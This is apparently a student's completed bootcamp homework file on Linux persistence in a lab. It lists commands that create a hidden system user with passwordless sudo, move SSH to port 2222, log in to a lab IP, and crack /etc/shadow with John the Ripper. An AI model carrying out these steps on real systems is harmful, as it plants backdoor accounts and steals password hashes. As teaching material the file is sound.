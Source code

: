 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser sysd`

![descprition](IMAGE/adduser.png)
    

2. Give your secret user a password: 
    - `1234`
    

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 888 sysd`
    

4. Give your secret user the same GID:
   - `sudo groupmod -g 888 sysd`

   <img src="/Week_6_HW/IMAGE/UIDGID.png">

![descprition](IMAGE/UIDGID.png)
    

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo then in visudo I typed sysd ALL=(ALL:ALL) NOPASSWD:ALL`

    verify no home dir:
    <br>
   <img src="/Week_6_HW/IMAGE/nohome.png">

![descprition](IMAGE/nohome.png)

   

6. Test that `sudo` access works without your password:

    ```bash
    (ALL : ALL) NOPASSWD: ALL
    ```
    <img src="/Week_6_HW/IMAGE/bash.png">

![descprition](IMAGE/bash.png)


**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Port 2222
    ```

    <img src="/Week_6_HW/IMAGE/ruffwater.png">

![descprition](IMAGE/ruffwater.png)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemcrl restart ssh`

    <img src="/Week_6_HW/IMAGE/listening.png">

![descprition](IMAGE/listening.png)

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

    <img src="/Week_6_HW/IMAGE/loginhacker.png">

![descprition](IMAGE/loginhacker.png)

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

    <img src="/Week_6_HW/IMAGE/loginhacker.png">

![descprition](IMAGE/loginhacker.png)


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `john /etc/shadow`

    This was sooooo coooool!

    <img src="/Week_6_HW/IMAGE/john.png">

![descprition](IMAGE/john.png)

I know it looks like a typo but I ran it again as you can see with shadow not shaow lol.

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

